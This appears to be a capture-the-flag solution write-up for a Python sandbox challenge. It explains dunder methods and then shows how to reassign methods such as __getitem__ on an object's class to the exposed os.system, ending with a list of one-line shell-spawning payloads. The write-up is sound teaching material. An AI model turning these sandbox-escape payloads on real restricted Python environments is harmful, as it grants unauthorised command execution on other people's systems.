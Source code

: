 # Solution

The goal of this challenge is to call a function in Python without using parentheses. This might seem impossible at first, as most traditional function calls in Python are done via `()`.

However, a lot of special operators and other behavior in Python can be controlled by magic methods. These methods, when defined on a class, let a programmer implement custom behavior for differnt parts of the Python language syntax, such as accessing a list element. Here is an example:

```python
>>> class Test:
...     def __getitem__(self, index):
...         print(f'You call __getitem__ with {index}')
...
>>> t = Test()
>>> t[1]
You call __getitem__ with 1
>>> t['hello']
You call __getitem__ with hello
```

Because these magic methods are surrounded by `__`, they are also sometimes referred to as dunder methods. There are a ton of different dunder methods you can override; for a nice reference, look [here](https://rszalski.github.io/magicmethods/).

The challenge sandbox is set up in way to let you execute Python code without access to many builtins; the relevant code from the challenge is:

```python
scope = {
    '__builtins__': {
        'call_me_maybe': os.system,
        'x': X(),
    }
}
```

The scope is limited because the sandbox has overriden the `__builtins__` global to give you access to only two things: a reference to `os.system` (which lets you execute arbitrary commands), and a reference to an instance of an empty class. The goal then becomes clear: we must somehow modify `x` to call `call_me_maybe` (the reference to `os.system`).

Our tools seem limited, but access to an instance of a class is a powerful primitive when combined with our knowledge of dunder methods. We can also access `x`'s underlying class definition (the `X` class) by accessing its `__class__` attribute, and can then set arbitrary class attributes. This is best understood with an example:

```python
>>> x.__class__
<class '__main__.main.<locals>.X'>
>>> x.__class__.test = 1234
>>> x.__class__.test
1234
```

Now, imagine that instead of a non-existent `test` attribute, we instead overwrite the definition of a dunder method that can help us achieve code execution. Here is another `__getitem__` example:

```python
>>> x.__class__.__getitem__ = lambda a, b: 'You called __getitem__'
>>> x['test']
'You called __getitem__'
```

So, instead of overwriting `__getitem__` with a not-very-helpful function, we can instead overwrite it with `call_me_maybe`. Then, any argument we passed in `[]` will be the argument passed to `os.system`:

```python
>>> x.__class__.__getitem__ = call_me_maybe
>>> x['sh']
$
```

This line of thought can be extended to a few other dunder methods. A non-comprehensive list of valid shell-popping payloads follows:

```python
x.__class__.__getitem__ = call_me_maybe; x['sh']
x.__class__.__getattr__ = call_me_maybe; x.sh
x.__class__.__getattribute__ = call_me_maybe; x.sh
x.__class__.__class_getitem__ = call_me_maybe; x.__class__['sh']
x.__class__.__format__ = call_me_maybe; f'{x:sh}'
```